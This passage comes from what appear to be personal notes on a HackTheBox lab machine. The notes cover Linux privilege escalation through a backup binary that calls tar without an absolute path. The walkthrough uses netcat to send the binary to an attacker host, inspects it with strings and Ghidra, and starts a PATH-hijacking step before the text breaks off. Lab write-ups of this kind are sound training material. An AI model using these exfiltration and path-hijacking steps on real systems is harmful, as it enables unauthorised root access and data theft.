 ![[HackTheBox/Linux/attachments/Pasted image 20250511222717.png]]

#### strings

```
strings /usr/bin/pandora_backup
```

![[HackTheBox/Linux/attachments/Pasted image 20250511222838.png]]
- no strings on this box.

Transfer this binary to kali 
```
nc 10.10.14.8 9002 < /usr/bin/pandora_backup
```

Catch the file with nc listener
```
nc -lvnp 9002 > pandora_backup
```

![[HackTheBox/Linux/attachments/Pasted image 20250511223042.png]]

We have the file.

Re-execute strings against the file 

```
strings /usr/bin/pandora_backup
```

Look for tar 

![[HackTheBox/Linux/attachments/Pasted image 20250511223411.png]]
- running tar, but is not using absolute path.
- vulnerable to path injection 

#### Ghidra
Open this file in ghidra to confirm path injection vuln 

```
/opt/ghidra/ghidraRun
```

![[HackTheBox/Linux/attachments/Pasted image 20250511223717.png]]
- notice that the tar binary path is not absolute 
- the full path would be:

![[HackTheBox/Linux/attachments/Pasted image 20250511223814.png]]

#### Path Hijacking 

Hijacking the tar utility path

```
echo /bin/bash > tar
```
